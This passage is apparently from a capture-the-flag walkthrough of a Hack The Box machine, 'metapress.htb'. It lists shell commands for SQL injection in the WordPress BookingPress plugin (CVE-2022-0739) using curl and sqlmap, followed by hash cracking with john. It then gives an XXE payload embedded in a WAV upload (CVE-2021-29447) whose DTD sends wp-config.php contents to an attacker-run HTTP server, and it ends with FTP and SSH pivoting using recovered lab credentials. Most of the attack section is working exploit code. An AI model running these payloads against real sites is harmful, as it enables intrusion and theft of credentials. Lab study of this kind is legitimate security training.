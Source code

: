 ### 💉 Phase 2: SQLi Exploitation (CVE-2022-0739)

```bash
# 1. Manual injection test (retrieve nonce from Events page)
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
--data 'action=bookingpress_front_get_category_services&_wpnonce=60646b11e1&category_id=123&total_service=111) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'

# 2. Automated extraction with sqlmap
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --method POST \
--data "action=bookingpress_front_get_category_services&_wpnonce=60646b11e1&category_id=123&total_service=111" \
-p total_service --level=5 --risk=3 --dbs

# 3. WordPress users dump
sqlmap -D blog -T wp_users --dump

# 4. Password cracking
john --wordlist=/usr/share/wordlists/rockyou.txt wp_users.hash
# → Result: manager:partylikearockstar
```

### 🧩 Phase 3: XXE Exploitation (CVE-2021-29447)

```bash
# 1. Create evil.dtd file
echo '<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM '"'"'http://10.10.14.50:8080/?p=%file;'"'"'>">' > evil.dtd

# 2. Create malicious WAV payload
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://10.10.14.50:8080/evil.dtd">%remote;%init;%trick;]>\x00' > payload.wav

# 3. Start HTTP server
python3 -m http.server 8080

# 4. Upload payload.wav to WordPress Media Library
# → Login with manager:partylikearockstar
# → Upload via Media > Add New

# 5. Decode base64 result
echo "BASE64_CONTENT" | base64 -d
# → Result: metapress.htb / 9NYS_ii@FyL_p5M2NvJ
```

### 📂 Phase 4: FTP Access and SSH Pivoting

```bash
# 1. FTP connection
ftp 10.10.11.186
# Login: metapress.htb
# Password: 9NYS_ii@FyL_p5M2NvJ

# 2. Enumeration and download
ls -la
cd mailer
get send_email.php
exit

# 3. File analysis
cat send_email.php
# → Result: jnelson / Cb4_JmWM8zUZWMu@Ys

# 4. SSH connection
```